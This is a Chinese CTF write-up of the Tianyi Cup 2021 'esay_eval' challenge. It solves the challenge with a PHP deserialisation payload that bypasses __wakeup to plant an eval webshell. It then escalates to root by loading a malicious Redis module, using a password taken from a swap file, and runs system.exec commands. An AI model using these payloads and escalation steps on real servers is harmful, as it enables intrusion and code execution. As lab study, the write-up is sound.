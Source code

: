 ```yaml
---
title: 天翼杯2021 esay_eval
date: 2022-05-11 20:41:07
toc: false
tags: 
    - CTF
categories: CTF
my: esay_eval
---
```


题目源码：

``` php
<?php
class A{
    public $code = "";
    function __call($method,$args){
        eval($this->code);
        
    }
    function __wakeup(){
        $this->code = "";
    }
}

class B{
    function __destruct(){
        echo $this->a->a();
    }
}
if(isset($_REQUEST['poc'])){
    preg_match_all('/"[BA]":(.*?):/s',$_REQUEST['poc'],$ret);
    if (isset($ret[1])) {
        foreach ($ret[1] as $i) {
            if(intval($i)!==1){
                exit("you want to bypass wakeup ? no !");
            }
        }
        unserialize($_REQUEST['poc']);    
    }


}else{
    highlight_file(__FILE__);
}
```

上来是个简单（bushi）的反序列化拿shell，但是A类里面的`__wakeup()`函数会把我们传进去的`$code`属性置为空，这里我们只需要让`__wakeup()`函数失效，CVE-2016-7124:当反序列化字符串中，表示属性个数的值大于真实属性个数时，会绕过 __wakeup 函数的执行。(也可上b站看[视频学习](https://www.bilibili.com/video/BV1Z54y1U7up?spm_id_from=333.880.my_history.page.click)）

```php
<?php
class a{
	function __construct(){
		$this->code = $code;
	}
}
class B{
	function __construct(){
		$this->a = $a;
	}
}
$a = new a();
$a->code = 'eval($_POST[1]);';
$b = new B();
$b->a = $a;
echo serialize($b);
?>
```

得到了payload：?poc=O:1:"B":1:{s:1:"a";O:1:"a":2:{s:4:"code";s:16:"eval($_POST[1]);";}}直接不犹豫连接蚁剑.当我们以为就此结束可以拿到flag我们点击根目录发现这个shell没有访问权限，但是在/var/www/html中有上传权限，所以可以通过上传恶意的so文件，通过蚁剑的redis管理插件，进行ssrf，然后包含恶意so文件（提供一[下载地址](https://github.com/Dliv3/redis-rogue-server)）

![image.png](https://s2.loli.net/2022/05/11/jnw9QXU8NWF5eK1.png)

**注**：因为插件市场这个东西，国内基本是访问不到，我在用蚁剑访问的时候，就一直转圈圈转不出来，所以可以使用github的插件仓库下载插件，然后手动放到**antSword-master/antData/pulgins**中，再次打开蚁剑后，会自动加载该插件（或者科学上网）

我们上传一个exp.so文件

![image.png](https://s2.loli.net/2022/05/11/hBI54UzwPbXysgo.png)

![image.png](https://s2.loli.net/2022/05/11/39SgHdzWhoZRnEJ.png)

密码是根据/var/www/html中有个config.php.swp文件，其中有密码

![image.png](https://s2.loli.net/2022/05/11/pcECsYOIgrRfPv5.png)

![image.png](https://s2.loli.net/2022/05/11/4w9d3VIzTHDgM1x.png)

然后执行指令

![image.png](https://s2.loli.net/2022/05/11/8CGLhlsyeDYir3N.png)

```
MODULE LOAD /var/www/html/exp.so
system.exec "whoami"
```

这里我们发现是root权限

![image.png](https://s2.loli.net/2022/05/11/lAhN2fa8yWSCPwk.png)

直接看根目录   然后找到flag

```
system.exec "ls /"
system.exec "cat /flag*"
```
